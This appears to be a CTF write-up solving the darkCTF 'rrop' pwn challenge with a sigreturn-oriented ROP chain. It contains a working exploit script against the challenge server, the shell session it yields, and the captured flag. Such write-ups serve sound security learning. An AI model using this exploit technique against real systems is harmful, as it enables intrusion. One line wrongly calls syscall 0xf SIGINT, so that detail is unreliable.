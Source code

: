 # Pwn/rrop
gr4n173

*You came this far using Solar Designer technique and advance technique, now you are into the gr4n173 world where you can't win just with fake rope/structure but here you should fake the signal which is turing complete.*

`ubuntu 18.04`

`nc rrop.darkarmy.xyz 7001`

File: `rrop`

This challenge was done with [`pwnscripts`](https://github.com/152334H/pwnscripts), although it's not as useful here.

## Solving
Kudos to gr4n173 for making a challenge where SIGROP is a necessity.

On the surface, everything about this challenge looks like `roprop` 3.0:
```c
int main() {
  char buf[0xd0]; // [rsp+0h] [rbp-D0h]
  nvm_init();
  nvm_timeout();
  printf(
    "Hello pwners, it's gr4n173 wired machine.\n"
    "Can you change the behaviour of a process, if so then take my Buffer  @%p, from some part of my process.\n",
    &buf);
  read(0, buf, 0x1388uLL);
}
```
The main difference here is that returning to GOT functions just doesn't work. I tried for a while to use the `roprop` exploit, but it just failed on any call to `r.printf()`.

With the original method a bust, we'll need to turn to the other things the binary provides:
```c
signed __int64 eax_rax() {
  return 0xFLL;
}
void useful_function() {
  __asm { syscall; LINUX - }
}
```
These two functions provide an `0xf` syscall. `0xf` is the SIGINT syscall, so this challenge is almost certainly a [SIGROP](http://docs.pwntools.com/en/stable/rop/rop.html#rop-sigreturn) challenge.

As the link implies, I abused pwntools to get a rop-chain running quickly:
```python
from pwnscripts import *
context.binary = 'rrop'
GOT_FUNCS = ['printf', 'read']
DIST = 0xd8

p = remote('rrop.darkarmy.xyz', 7001)
p.recvline()
buf = extract_first_hex(p.recvline())

r = ROP(context.binary)
r.raw('/bin/sh\0')
r.raw((DIST-8)*b'a')
r.execve(buf,0,0)
```
This doesn't work immediately, because `pwntools` doesn't detect the `rax` magic function:
```python
pwnlib.exception.PwnlibException: Could not satisfy setRegisters({'rax': Constant('SYS_rt_sigreturn', 0xf)})
```
We'll manually add the gadget to get that fixed:
```python
set_eax = context.binary.symbols['eax_rax'] + 4
r.gadgets[set_eax] = pwnlib.rop.gadgets.Gadget(set_eax, ['mov eax, 0xf', 'ret'], ['rax'], 0x8)
r.execve(buf,0,0)

p.sendline(r.chain())
p.interactive()
```
Now, the code passes, but...
```python
[+] Opening connection to rrop.darkarmy.xyz on port 7001: Done
[*] Loaded 15 cached gadgets for 'rrop'
[*] Using sigreturn for 'SYS_execve'
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
```
...it still doesn't work. Bummer, but why?

A `r.dump()` will show the error quickly:
```python
0x0000:   b'/bin/sh\x00' '/bin/sh\x00'
0x0008:      b'aaaaaaaa' b'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'
0x00d8:         0x4007dc mov eax, 0xf; ret
0x00e0:              0xf [arg0] rax = SYS_rt_sigreturn
0x00e8:         0x4007d2 syscall; ret
...
```
`pwntools` isn't used to having `mov` gadgets in its code, so it assumes that the `mov` is actually a `pop`.

Let's just monkey patch our payload to get through:

```python
payload = r.chain()
payload = payload[:0xe0] + payload[0xe8:]
p.sendline(payload)
p.interactive()
```
Simple enough.
```
[*] Switching to interactive mode
$ ls
bin
dev
flag.txt
lib
lib32
lib64
rrop
$ cat flag.txt
darkCTF{f1n4lly_y0u_f4k3_s1gn4l_fr4m3_4nd_w0n_gr4n173_w1r3d_m4ch1n3}
```
